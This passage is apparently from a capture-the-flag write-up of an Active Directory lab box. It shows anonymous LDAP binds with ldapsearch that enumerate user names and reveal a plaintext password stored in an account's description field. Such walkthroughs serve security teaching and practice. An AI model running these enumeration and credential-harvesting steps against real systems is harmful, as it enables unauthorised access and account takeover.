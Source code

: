 First, we can try an anonymous bind on the LDAP port using [ldapsearch](https://linux.die.net/man/1/ldapsearch) to look for some information. Here, we used the `grep` command to look for the **userPrincipalName** attribute that specifies the UPN of the users.

```bash
$ ldapsearch -x -b "dc=megabank,dc=local" "*" -H ldap://10.129.96.155 | grep userPrincipalName 
userPrincipalName: ryan@megabank.local
userPrincipalName: marko@megabank.local
userPrincipalName: sunita@megabank.local
userPrincipalName: abigail@megabank.local
userPrincipalName: marcus@megabank.local
userPrincipalName: sally@megabank.local
userPrincipalName: fred@megabank.local
userPrincipalName: angela@megabank.local
userPrincipalName: felicia@megabank.local
userPrincipalName: gustavo@megabank.local
userPrincipalName: ulf@megabank.local
userPrincipalName: stevie@megabank.local
userPrincipalName: claire@megabank.local
userPrincipalName: paulo@megabank.local
userPrincipalName: steve@megabank.local
userPrincipalName: annette@megabank.local
userPrincipalName: annika@megabank.local
userPrincipalName: per@megabank.local
userPrincipalName: claude@megabank.local
userPrincipalName: melanie@megabank.local
userPrincipalName: zach@megabank.local
userPrincipalName: simon@megabank.local
userPrincipalName: naoki@megabank.local
```

The *anonymous* bind worked and we got some usernames. Let's dig a bit further, maybe there are interesting things in the **description** field of some of them. 

In real world scenarios, system administrators frequently store passwords for non-personal accounts in the *description* field of the account. However, this field is readable by all users by default in Active Directory.

```bash
$ ldapsearch -x -b "dc=megabank,dc=local" "*" -H ldap://10.129.96.155 | grep -E 'userPrincipalName|description'

...[snip]...

userPrincipalName: ryan@megabank.local
description: Account created. Password set to Welcome123!
userPrincipalName: marko@megabank.local
userPrincipalName: sunita@megabank.local
userPrincipalName: abigail@megabank.local
userPrincipalName: marcus@megabank.local
userPrincipalName: sally@megabank.local

...[snip]...
```
